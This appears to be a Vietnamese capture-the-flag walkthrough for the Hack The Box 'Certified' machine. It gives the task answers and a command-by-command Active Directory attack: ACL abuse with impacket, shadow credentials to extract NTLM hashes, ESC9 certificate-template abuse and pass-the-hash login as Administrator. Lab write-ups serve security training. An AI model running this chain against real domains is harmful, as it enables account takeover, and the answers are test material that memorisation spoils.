## Machine Information
As is common in Windows pentests, you will start the Certified box with credentials for the following account
```
judith.mader \ judith09
```
## Task 1


Sau khi quét chúng ta được một số đang port


> 80
## Task 2


Từ kết quả dò quét, chúng ta cũng thu thập được thông tin


> DC01.certified.htb
## Task 3


Chúng ta sẽ sử dụng account sẵn có để chạy recon 
```bash
bloodhound-python -u 'judith.mader' -p 'judith09' -d certified.htb -ns 10.129.231.186 -c All
```
Sau đó sẽ thu được 7 file json và sử dụng các file này để input vào BloodHound

> WriteOwner

## Task 4


Chúng ta lại đi tìm trong Bloodhound


> Management_SVC

## Task 5


Để có được NTLM hash của Management_svc, chúng ta sẽ dò trước đường tấn công

### Chiếm owner group MANAGEMENT
Chúng ta sẽ sử dụng công cụ owneredit
```bash
impacket-owneredit -action write -new-owner 'judith.mader' -target 'management' 'certified.htb/judith.mader:judith09' -dc-ip 10.129.231.186
```
Kết quả nhận được

### Cấp GenericAll
```bash
impacket-dacledit -action write -rights FullControl -principal 'judith.mader' -target 'management' 'certified.htb/judith.mader:judith09' -dc-ip 10.129.231.186
```
Kết quả

### Thêm account vào group MANAGEMENT
```bash
impacket-net 'certified.htb/judith.mader:judith09@10.129.231.186' group -name "MANAGEMENT" -join judith.mader
```
Kết quả

### Shadow Credentials
```bash
# 1. Tắt NTP + sync time
sudo timedatectl set-ntp off
sudo ntpdate -s 10.129.231.186

# 2. Thêm shadow credentials bằng pywhisker (LDAP, không cần Kerberos)
python3 ./pywhisker/pywhisker/pywhisker.py -d "certified.htb" \
  -u "judith.mader" -p "judith09" \
  --target "management_svc" --action "add" \
  --dc-ip 10.129.231.186

# 3. Lấy TGT bằng PKINITtools (ghi lại file .pfx và password từ bước 2)
python3 ./PKINITtools/gettgtpkinit.py -cert-pfx 35jCuEtI.pfx \
  -pfx-pass 'ZpNFo4J97O9poaOWz8p3' \
  certified.htb/management_svc management_svc.ccache \
  -dc-ip 10.129.231.186

# 4. Lấy NTLM hash
export KRB5CCNAME=management_svc.ccache
python3 ./PKINITtools/getnthash.py -key a5ad5c124a8a0d7d79d0a2876b44f3f136152b285853e1b8f265914c995fff35 \
  certified.htb/management_svc \
  -dc-ip 10.129.231.186
```
**Shadow Credentials** là một kỹ thuật lạm dụng attribute `msDS-KeyCredentialLink` trong Active Directory. **Bình thường** để authenticate một user, bạn chúng ta biết password hoặc hash của họ. Shadow Credentials cho phép chúng ta **bypass hoàn toàn** điều đó.

**Cách nó hoạt động, từng bước:**
1. **Ghi certificate vào AD** — Vì chúng ta có GenericWrite lên MANAGEMENT_SVC, chúng ta có quyền ghi vào attribute `msDS-KeyCredentialLink` của user đó. Certipy sẽ tạo một cặp key (public/private), rồi ghi public key vào attribute này. Hiểu đơn giản: chúng ta "cắm" một chìa khóa giả vào tài khoản của họ.
2. **Dùng chìa khóa đó để xin TGT** — Với private key vừa tạo, certipy dùng giao thức PKINIT (Kerberos + certificate) để authenticate as MANAGEMENT_SVC và nhận về một TGT (Ticket Granting Ticket).
3. **Extract NTLM hash từ TGT** — Khi authenticate bằng PKINIT, Domain Controller trả về một cấu trúc gọi là PAC_CREDENTIAL_INFO bên trong TGT, trong đó **chứa sẵn NTLM hash** của user. Certipy extract hash từ đó.

Kết quả sẽ thu được


> a091c1832bcdd4677c28b5a6a1295584

## User Flag


Theo gợi ý nghĩa là user này có thể login nên chúng ta thử winrm với hash thu được
```bash
evil-winrm -i 10.129.231.186 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584
```
Kết quả tìm được User Flag


## Task 7


Dễ dàng tìm được trên BloodHound


> CA_OPERATOR

## Task 8


Chúng ta sẽ sử dụng account có được để tìm
```bash
certipy find -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 \
  -dc-ip 10.129.231.186 -stdout
```
Thu được kết quả


> certified-DC01-CA

## Task 9


Kéo xuống kết quả ở task 8 chúng ta sẽ thấy


>CertifiedAuthentication

## Task 10


> ESC9

## Task 11


> ca_operator

## Root Flag
**Bước 1 — Lấy NTLM hash của ca_operator**
Vì management_svc có GenericAll lên ca_operator:
```bash
# Thêm shadow credentials cho ca_operator
python3 pywhisker/pywhisker/pywhisker.py -d "certified.htb" \
  -u "management_svc" -H 'a091c1832bcdd4677c28b5a6a1295584' \
  --target "ca_operator" --action "add" \
  --dc-ip 10.129.231.186

# Lấy TGT
python3 ./PKINITtools/gettgtpkinit.py -cert-pfx mYmg4Rpq.pfx \
  -pfx-pass ljMtyfjpuz3yVZ0o92no \
  certified.htb/ca_operator ca_operator.ccache \
  -dc-ip 10.129.231.186

# Lấy NTLM hash
export KRB5CCNAME=ca_operator.ccache
python3 ./PKINITtools/getnthash.py -key e3cb425df653693a754fc0a573572689013dee2ecc0b3108a41acb0423c59f17 \
  certified.htb/ca_operator -dc-ip 10.129.231.186
```
Chúng ta sẽ thu được NTLM Hash của ca_operator

**Bước 2 — ESC9: đổi UPN của ca_operator thành Administrator:**
```bash
certipy-ad account update \
  -username management_svc@certified.htb \
  -hashes a091c1832bcdd4677c28b5a6a1295584 \
  -user ca_operator -upn Administrator \
  -dc-ip 10.129.231.186
```
**Bước 3 — Request certificate với UPN giả:**
```bash
certipy-ad req \
  -username ca_operator@certified.htb \
  -hashes b4b86f45c6018f1b664f70805f45d8f2 \
  -ca certified-DC01-CA -template CertifiedAuthentication \
  -dc-ip 10.129.231.186
```
Bước 4 - Trả UPN gốc (restore ngay, giữ môi trường clean):
```bash
certipy-ad account update \
  -username management_svc@certified.htb \
  -hashes a091c1832bcdd4677c28b5a6a1295584 \
  -user ca_operator -upn ca_operator@certified.htb \
  -dc-ip 10.129.231.186
```
**Bước 4 — Auth bằng cert → lấy Administrator NTLM hash:**
```bash
sudo ntpdate -s 10.129.231.186
certipy-ad auth -pfx administrator.pfx \
  -dc-ip 10.129.231.186 \
  -username administrator -domain certified.htb
```

Chúng ta phải thu được hash

**Bước 5 — Login as Administrator:**
```bash
evil-winrm -i 10.129.231.186 -u Administrator -H 0d5b49608bbce1751f708748f67e2d34
type C:\Users\Administrator\Desktop\root.txt
```
